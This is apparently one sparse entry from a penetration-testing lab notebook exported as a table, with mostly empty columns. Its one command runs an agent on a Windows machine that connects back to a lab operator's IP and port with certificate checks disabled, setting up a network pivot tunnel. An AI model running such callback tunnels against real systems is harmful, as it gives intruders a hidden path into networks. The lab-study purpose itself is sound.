 # Lab Challange - 0 — Entry 17

## Unnamed: 0

_(empty)_

## Unnamed: 1

_(empty)_

## Unnamed: 2

_(empty)_

## Unnamed: 3

```
.\agent.exe -connect 192.168.45.163:11601 -ignore-cert
```

## Unnamed: 4

_(empty)_

## Unnamed: 5

_(empty)_

## Unnamed: 6

_(empty)_

## Unnamed: 7

_(empty)_

## Unnamed: 8

_(empty)_

## Unnamed: 9

_(empty)_

## Unnamed: 10

_(empty)_

## Unnamed: 11

On windows machine

